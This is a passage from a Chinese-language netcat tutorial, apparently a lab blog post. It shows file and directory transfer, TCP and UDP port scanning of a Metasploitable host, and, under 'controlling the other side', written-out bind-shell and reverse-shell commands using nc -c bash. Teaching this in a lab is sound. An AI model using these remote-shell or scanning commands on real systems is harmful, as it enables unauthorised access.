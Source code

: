 下面的箭头可能会让人觉得非常混乱，尤其是两种方式对比的时候。如何理解这些左右箭头？我是这样记忆的，作为发送端，是要把文件通过本地监听的端口发送出去，所以发送端的箭头是`<`，那么接收端就是`>`
**传输文件**
接收端 A：nc -lp 333 > 1.mp4
发送端 B：nc -nv 1.1.1.1 333 < 1.mp4 -q 1
![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/dd5b91d33c0c4d2e34f2af5374229e85.gif#pic_center)

或者
发送端 A：nc -q 1 -lp 333 < 1.mp4
接收端 B：nc -nv 1.1.1.1 333 > 1.mp4
![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/09ecfc6ac6d020720a731674d08f865e.gif#pic_center)

**传输目录**
发送端A：tar -cvf - 文件夹/ | nc -lp 333 -q 1
接收端B：nc -nv 1.1.1.1 333 | tar -xvf -
![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/0816b0a81f8713770b9525f2542dee77.gif#pic_center)

### 端口扫描

很多扫描器都能做端口扫描，但是准确性就不一定了。一般来说，nmap的扫描结果较好，nc的仅供参考。
在kali上使用 nc -nvz 192.168.40.133 1-65535去探测Metasploitable的1-65535端口，`-z`参数就是端口探测，默认使用TCP连接，可以通过抓包看到细节。

可以看到，nc的端口扫描是从大到小，一旦能建立起三次握手，就发送FIN+ACK断开连接，然后扫描下一个端口
![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/49f748a443a11b6d18194dd6650caf72.png#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/119b3777297ebf39ad2ff54668284d30.png#pic_center)

那么，nc也可以使用UDP的方式做端口扫描，就是加一个`u`，nc -nvzu 192.168.40.133 1-65535
![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/808cf97e7e8e1987d5ee30dae2dad033.png#pic_center)

### 控制对方

如果感觉下面的例子有些费神，你就看谁给了bash，谁把bash交出去，谁就是被控制的
（监听端口等着别人连自己的交服务器端，主动连接别人的是客户端）

#### 正向控制

客户端A 【控制端】 ：nc -nv ip 333
服务器端B【被控制端】：nc -lp 333 -c bash
上面的命令挺类似于使用nc聊天的命令，所不同的是服务器端加了一个`-c bash`，命令的意思是一旦有人来连接自己，就把自己的一个bash传给对方，如果是windows的话，把bash换成cmd就行了
![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/e6726b3e4240b95bc5383c0a792bb6d2.gif#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/add5440d483bbcb6cfc0d95323959b83.gif#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/5d6187f9af83c7a519f73dbcb1707d20.gif#pic_center)

#### 反向控制

客户端A 【被控制端】：nc –nv 192.168.40.150 333 -c bash
服务器端B【控制端】 ：nc -lp 333
![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/ad5d44a49faf7c2e6cc67119926de614.gif#pic_center)
